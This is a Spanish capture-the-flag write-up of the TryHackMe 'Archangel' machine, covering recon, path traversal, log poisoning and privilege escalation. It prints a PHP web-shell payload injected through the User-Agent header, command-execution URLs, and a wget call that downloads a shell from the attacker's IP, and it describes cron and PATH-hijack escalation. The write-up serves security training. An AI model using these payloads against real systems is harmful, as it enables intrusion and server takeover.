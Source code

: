 ```yaml
---
title: "Archangel Writeup - Try-Hack-Me"
date: 2024-01-11
categories: [Writeups, Try-Hack-Me]
tags: [Linux, Easy]
image: 
  path: assets/img/imagenes/archangel.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: "Archangel banner"
---
```

<style>
  h3 {
    color: #00FF00; /* Puedes cambiar "blue" por cualquier color que desees */
  }
</style>
### nmap

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 9f1d2c9d6ca40e4640506fedcf1cf38c (RSA)
|   256 637327c76104256a08707a36b2f2840d (ECDSA)
|_  256 b64ed29c3785d67653e8c4e0481cae6c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Wavefire
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web 
![img](/assets/img/imagenes/Pasted image 20231115001626.png)
Al poner el dominio, ya tenemos la primera flag.

### Fuzzing

```python
/robots.txt
/test.php
```

### Path Traversal

mirando el ``/etc/passwd`` 
![img](/assets/img/imagenes/Pasted image 20231115001838.png)

para ver los logs 

```python
GET /test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log
```

### User-Agent Spoofing (BurpSuite)

Modificamos el php mediante el parámetro user-Agent:
```python
<?php system($_GET['cmd']);?>
```
![img](/assets/img/imagenes/Pasted image 20231115002021.png)

Podemos ejecutar comandos mediante el parámetro ``&cmd=``

```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=id
```
![img](/assets/img/imagenes/Pasted image 20231115002056.png)

Cargamos una shell en php mediante wget. 
```python
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//..//..//var/log/apache2/access.log&cmd=wget http://10.8.189.249:8000/shell.php
```

### Shell www-data

![img](/assets/img/imagenes/Pasted image 20231115002136.png)
### movimiento lateral
hay una tarea cron que se ejecuta cada cierto tiempo, tenemos permisos de escritura en este archivo, así que vamos a meterle una shell, para pasarnos al usuario archangel.

![img](/assets/img/imagenes/Pasted image 20231115002205.png)
![img](/assets/img/imagenes/Pasted image 20231115002239.png)

### Elevar privilegios
Tenemos un binario ``backup`` que tira de ``cp`` para hacer alguna movida de copia. 

vamos a crear un ``cp`` falso el cual agregamos al path para que nos de una bash cuando ejecutemos el binario 
![img](/assets/img/imagenes/Pasted image 20231115002308.png)

![img](/assets/img/imagenes/Pasted image 20231115002336.png)
### WE ARE ROOT